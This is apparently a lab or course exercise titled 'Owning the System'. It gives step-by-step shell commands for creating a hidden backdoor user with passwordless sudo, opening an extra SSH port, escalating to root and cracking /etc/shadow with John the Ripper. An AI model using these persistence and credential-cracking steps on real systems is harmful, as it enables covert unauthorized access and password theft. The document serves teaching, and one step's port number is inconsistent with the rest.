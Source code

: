 # Advanced Bash - Owning the System

- Step 1: Shadow People
  - 1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
    - sudo useradd --system --no-create-home sysd

[](/Linux/Images/AB-1-create-user.png)


- 2. Give your secret user a password:
  - Sudo passwd sysd



- 3. Give your secret user a system UID < 1000
    - sudo usermod -u 997 sysd




- 4. Give your secret user the same GID:
    - sudo groupmod -g 997 sysd


- 5. Give your secret user full sudo access without the need for a password:
    - sudo visudo


- 6. Test that sudo access works without your password:
    - su sysd
    - Passw0rd










- Step 2: Smooth Sailing
  - 1. Edit the sshd_config file:
    - sudo nano /etc/ssh/sshd_config




- Step 3: Testing Your Configuration Update
  - 1. Restart the SSH service:
    - systemctl restart ssh

 - 2. Exit the root account
    - exit   (see bottom of the screenshot to see “exit”)




  - 3. SSH to the target machine using your sysd account and port 2222:
    - ssh sysd@192.168.1.23 -p 2222




  - 4. Use sudo to switch to the root user:
    - sudo su root




- Step 4: Crack All the Passwords
  - 1. SSH back to the system using your sysd account and port 2222:
    - ssh sysd@192.168.1.23 -p 22


 - 2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
    - sudo su root
    - john /etc/shadow
